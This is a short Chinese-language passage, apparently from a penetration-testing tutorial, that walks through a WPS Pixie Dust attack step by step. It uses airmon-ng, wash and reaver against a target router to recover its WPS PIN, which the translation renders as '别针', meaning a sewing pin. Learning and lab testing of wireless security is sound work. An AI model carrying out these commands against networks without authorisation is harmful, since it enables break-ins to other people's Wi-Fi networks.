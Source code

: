 要了解 pixie dust，请按照给定步骤进行操作：

1.  我们使用以下命令在监控模式下启动界面：

```
 airmon-ng start wlan0
```

2.  然后，我们需要找到启用 WPS 的网络；我们可以使用以下命令执行此操作：

```
 wash -i <monitor mode interface> -C
```

以下屏幕截图显示了上述命令的示例：

![](img/004235d3-a7ac-43c5-a134-a8298c963cba.png)

3.  现在我们使用以下命令运行`reaver`：

```
 reaver -i wlan0mon -b [BSSID] -vv -S -c [AP channel]
```

以下屏幕截图显示了上述命令的示例：

![](img/9ba9b27a-ac24-44aa-a6ee-271da1d02b62.png)

4.  一旦完成，我们应该看到别针。
